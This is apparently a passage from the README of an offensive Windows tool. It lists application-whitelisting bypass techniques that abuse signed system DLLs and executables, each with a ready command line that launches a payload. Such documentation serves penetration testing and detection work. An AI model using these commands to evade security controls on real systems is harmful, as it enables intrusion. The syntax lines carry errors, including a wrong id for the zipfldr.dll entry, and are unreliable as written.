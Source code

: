 	* Fixed in: n/a	
* Bypass Application Whitelisting using Advpack.dll
    * Id: 6
    * Method: Execute payload by calling the RegisterOCX function in Advpack.dll
    * Syntax: `winpwnage.py --use execute --id 6--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using dxcap.exe
    * Id: 7
    * Method: Executes payload by running dxcap.exe with parameter -c
    * Syntax: `winpwnage.py --use execute --id 7--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using ieadvpack.dll
    * Id: 8
    * Method: Execute payload by calling the RegisterOCX function in ieadvpack.dll
    * Syntax: `winpwnage.py --use execute --id 8--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using ieframe.dll
    * Id: 9
    * Method: Execute payload by calling the OpenURL function in ieframe.dll
    * Syntax: `winpwnage.py --use execute --id 9--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using pcwutl.dll
    * Id: 10
    * Method: Execute payload by calling the LaunchApplication function in pcwutl.dll
    * Syntax: `winpwnage.py --use execute --id 10--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using ftp.exe
    * Id: 11
    * Method:  Executes payload by running ftp.exe script
    * Syntax: `winpwnage.py --use execute --id 11--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a	
* Bypass Application Whitelisting using shdocvw.dll
    * Id: 12
    * Method: Execute payload by calling the OpenURL function in shdocvw.dll
    * Syntax: `winpwnage.py --use execute --id 12--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using url.dll
    * Id: 13
    * Method: Execute payload by calling the OpenURL function in url.dll
    * Syntax: `winpwnage.py --use execute --id 13--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a
* Bypass Application Whitelisting using zipfldr.dll
    * Id: 14
    * Method: Execute payload by calling the RouteTheCall function in zipfldr.dll
    * Syntax: `winpwnage.py --use execute --id 3--payload c:\\windows\\system32\\cmd.exe`
	* Requires: n/a
	* Works from: 7600
	* Fixed in: n/a	